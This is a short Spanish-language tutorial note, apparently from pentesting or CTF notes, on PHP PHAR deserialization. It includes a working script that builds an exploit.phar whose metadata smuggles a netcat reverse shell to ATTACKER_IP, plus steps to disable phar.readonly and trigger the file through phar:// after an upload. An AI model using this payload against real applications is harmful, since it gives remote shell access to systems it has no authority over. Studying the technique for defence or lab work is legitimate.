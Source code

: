 ### INFO

- PHAR es una extensión de PHP.
- Permite guardar una aplicación entera PHP dentro de un archivo.
- Es similar a los JAR de java.
- Se acceden a los archivos dentro del mismo usando el wrapper phar://archivo

### Explotación

- Los phar tienen muchas propiedades, entre ellas la que nos es más importante es la metadata.
- Según la documentación de PHP (https://www.php.net/manual/en/phar.getmetadata.php) toda variable suceptible de ser serializada califica como metadata.
- Hasta php 8.0 toda metadata es deserializada de manera automática cuando se parsea un phar.
- Parsear un phar consta de llamar al archivo con el wrapper phar://
- Esto funciona incluso cuando los archivos son subidos con otras extensiones como JPG.


A modo de ejemplo, supongamos que encontramos un file upload, podríamos generar un phar con el siguiente procedimiento:
1) Creamos un archivo .php con el siguiente código:

        <?php
        include('UserSettings.php');
        
        $phar = new Phar("exploit.phar");
        
        $phar->startBuffering();
        
        $phar->addFromString('0', '');
        $phar->setStub("<?php __HALT_COMPILER(); ?>");
        $phar->setMetadata(new \App\Helpers\UserSettings('"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash;#', 'attacker@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg'));
        
        $phar->stopBuffering();


2) Lo ejecutamos y este nos va a crear el archivo exploit.phar
#####  Si tenemos el siguiente error:
    PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "exploit.phar" disabled by the php.ini setting phar.readonly in XXXXX
    Stack trace:
    #0 XXXXX: Phar->__construct()
    #1 {main}
      thrown in XXXXX on line XX

##### Podemos solucionarlo cambiando la propiedad phar.readonly = On a Off dentro del archivo:
    /etc/php/<php version>/cli/php.ini

3) Subimos el archivo y buscamos llamarlo con el wrapper phar://

---
### Mas info detallada sobre el ataque:

        https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf
